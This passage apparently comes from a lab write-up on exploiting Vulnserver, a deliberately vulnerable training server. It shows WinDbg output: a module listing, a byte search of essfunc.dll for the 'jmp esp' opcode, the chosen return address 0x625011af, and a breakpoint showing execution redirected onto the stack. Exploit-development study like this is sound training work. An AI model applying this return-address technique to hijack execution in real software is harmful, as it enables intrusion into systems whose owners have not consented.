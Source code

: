 ```
0:003> lm
start    end        module name
00400000 00407000   vulnserver   (deferred)             
62500000 62508000   essfunc    (deferred)             
74dc0000 74e16000   mswsock    (deferred)             
75a70000 75c87000   KERNELBASE   (deferred)             
761d0000 7626a000   KERNEL32   (deferred)             
76300000 763c5000   RPCRT4     (deferred)             
76d50000 76e0f000   msvcrt     (deferred)             
76f90000 76ff3000   WS2_32     (deferred)             
775f0000 7778f000   ntdll      (pdb symbols)       

0:003> lmDvmessfunc
Browse full module list
start    end        module name
62500000 62508000   essfunc    (deferred)             
    Image path: C:\Users\labuser\Downloads\vulnserver-master\essfunc.dll
    Image name: essfunc.dll
    Browse all global symbols  functions  data
    Timestamp:        Fri Nov 19 07:41:04 2010 (4CE61C00)
    CheckSum:         0000E774
    ImageSize:        00008000
    Translations:     0000.04b0 0000.04e4 0409.04b0 0409.04e4
    Information from resource tables:
		```

`jmp esp` have following opcode `0xff 0xe4`, so we can use search functionality in WinDbg to find such opcodes in the chosen module.

```
0:003> s -b 62500000 62508000   0xff 0xe4
625011af  ff e4 ff e0 58 58 c3 5d-c3 55 89 e5 ff e4 ff e1  ....XX.].U......
625011bb  ff e4 ff e1 5b 5b c3 5d-c3 55 89 e5 ff e4 ff e3  ....[[.].U......
625011c7  ff e4 ff e3 5d 5d c3 5d-c3 55 89 e5 ff e4 ff e7  ....]].].U......
625011d3  ff e4 ff e7 5b 5b c3 5d-c3 55 89 e5 ff e4 ff e2  ....[[.].U......
625011df  ff e4 ff e2 59 5a c3 5d-c3 55 89 e5 ff e4 ff e6  ....YZ.].U......
625011eb  ff e4 ff e6 59 58 c3 5d-c3 55 89 e5 ff e4 ff e5  ....YX.].U......
625011f7  ff e4 ff e5 58 5a c3 5d-c3 55 89 e5 ff e4 ff e4  ....XZ.].U......
62501203  ff e4 ff e4 ff 64 24 f4-59 59 c3 5d c3 55 89 e5  .....d$.YY.].U..
62501205  ff e4 ff 64 24 f4 59 59-c3 5d c3 55 89 e5 81 ec  ...d$.YY.].U....
0:003> u 625011af  
essfunc!EssentialFunc2+0x3:
625011af ffe4            jmp     esp
```

One good candidate is address `0x625011af`. Let's put that in our exploit.

```
0:000> bp 0x625011af
0:000> g
ModLoad: 74dc0000 74e16000   C:\Windows\system32\mswsock.dll
Breakpoint 0 hit
eax=00eef1e8 ebx=000000cc ecx=001e559c edx=00000000 esi=00401848 edi=00401848
eip=625011af esp=00eef9c8 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
essfunc!EssentialFunc2+0x3:
625011af ffe4            jmp     esp {00eef9c8}
0:003> p
eax=00eef1e8 ebx=000000cc ecx=001e559c edx=00000000 esi=00401848 edi=00401848
eip=00eef9c8 esp=00eef9c8 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
00eef9c8 43              inc     ebx
```

```